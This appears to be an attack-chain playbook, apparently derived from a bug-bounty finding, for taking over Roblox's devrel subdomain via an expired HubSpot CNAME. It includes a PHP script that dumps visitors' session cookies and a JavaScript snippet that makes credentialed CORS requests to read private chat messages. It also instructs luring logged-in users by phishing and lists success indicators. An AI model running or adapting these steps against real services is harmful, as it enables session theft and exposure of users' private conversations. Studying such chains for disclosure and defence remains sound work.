

# Subdomain Takeover of devrel.roblox.com Leading to Authentication Bypass and Private Chat Access

Multi-stage attack chain demonstrating a complete attack workflow exploiting a dangling CNAME on Roblox's devrel subdomain via an expired HubSpot instance, leading to full subdomain control, session cookie theft, and unauthorized access to private user chats through CORS misconfiguration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (manual DNS checks and web hosting via HubSpot)

### Target Environment

- Web platform with DNS records pointing to third-party services like HubSpot
- Services: HubSpot CMS, Roblox chat API
- Tech stack: PHP, JavaScript
- Network access: Public internet for DNS queries and subdomain access

### Initial Access Requirements

- No credentials needed initially
- Public DNS resolution
- Ability to claim unowned third-party resources (e.g., HubSpot account)

## Detailed Attack Procedures

### Step 1: Identify and Verify Subdomain Takeover
procedure: [[procedures/Identify-and-Verify-Subdomain-Takeover]]

**Objective**: Discover and confirm control over the dangling subdomain to establish initial foothold.

**Instructions**: Query DNS for the target subdomain to identify the CNAME pointing to an expired HubSpot instance. Then, attempt to access the subdomain and verify takeover by hosting a proof-of-concept page.

Use standard DNS tools like `dig` to check records:

```bash
dig CNAME devrel.roblox.com
```

Visit the subdomain URL to confirm the expired status and claim it via HubSpot registration.

**Expected Output**: DNS response showing unclaimed HubSpot pointer; successful access to a takeover confirmation page like "https://devrel.roblox.com/subdomain-takeover" displaying custom content.

**Success Indicators**:
- CNAME points to reclaimable HubSpot
- Custom page loads on subdomain

### Step 2: Claim Subdomain and Host Cookie Stealing Script
procedure: [[procedures/Claim-Subdomain-and-Host-Cookie-Stealing-Script]]

**Objective**: Gain control of the subdomain and deploy a script to steal authentication cookies from visiting users.

**Instructions**: Register the HubSpot instance linked to the CNAME and upload a PHP script to capture cookies. The script exploits the broad scoping of .ROBLOSECURITY cookies.

Upload and execute the [[commands/php-cookie-stealer]] script on the subdomain:

```php
<?php echo"Cookies received: <br>"; foreach($_COOKIE as $key=>$val) { echo"Set-Cookie: $key=$val; Domain=.roblox.com; path=/<br>\n"; } ?>
```

Lure users to visit the subdomain (e.g., via phishing) to trigger cookie capture.

**Expected Output**: Script outputs all cookies, including .ROBLOSECURITY, in Set-Cookie format for exfiltration.

**Success Indicators**:
- Subdomain points to controlled HubSpot
- Cookies echoed when a logged-in user visits

### Step 3: Exploit CORS to Read Private Chats
procedure: [[procedures/Exploit-CORS-to-Read-Private-Chats]]

**Objective**: Leverage the subdomain's whitelisted status to bypass CORS and access private user data like chat messages.

**Instructions**: Host JavaScript on the controlled subdomain to make credentialed requests to the Roblox chat API, exploiting the misconfigured allowlist.

Deploy the [[commands/js-cors-chat-reader]] script:

```javascript
<h2>CORS To Read Chat</h2><div id="demo"><button type="button" onclick="cors()">Chat Reader @ Roblox</button></div><script>function cors(){var xhttp = new XMLHttpRequest(); xhttp.onreadystatechange=function(){if(this.readyState == 4 && this.status == 200){ document.getElementById("demo").innerHTML = document.write(this.responseText);}}; xhttp.open("GET","https://chat.roblox.com/v2/get-messages?conversationId=469104576&pageSize=3",true); xhttp.withCredentials = true; xhttp.send();}</script>
```

Click the button on the page while authenticated to fetch chats.

**Expected Output**: JSON response with chat messages from the specified conversation displayed on the page.

**Success Indicators**:
- CORS request succeeds without preflight block
- Private chat content retrieved and visible

## Attack Chain Summary

### Key Achievements

1. Full control over devrel.roblox.com via HubSpot takeover
2. Theft of .ROBLOSECURITY cookies for account impersonation
3. Unauthorized reading of private user chats via CORS exploit

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Credentials In Files]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Credential Access]]
- [[Collection]]

---
*Last updated: 2024-10-01T00:00:00Z*
